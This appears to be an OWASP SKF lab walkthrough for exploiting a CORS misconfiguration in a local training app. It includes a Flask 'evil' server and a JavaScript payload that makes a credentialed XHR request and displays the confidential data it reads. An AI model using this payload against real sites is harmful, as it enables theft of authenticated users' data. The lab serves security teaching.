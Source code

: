 # CORS exploitation

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as admin/admin.

![](../../.gitbook/assets/python/CORS/1.png)

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](../../.gitbook/assets/python/CORS/2.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](../../.gitbook/assets/python/CORS/3.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.

![](../../.gitbook/assets/python/CORS/4.png)

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing_for_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://0.0.0.0:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://0.0.0.0:1337](http://0.0.0.0:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.

![](../../.gitbook/assets/python/CORS/5.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

Let's open our evil app

![](../../.gitbook/assets/python/CORS/6.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
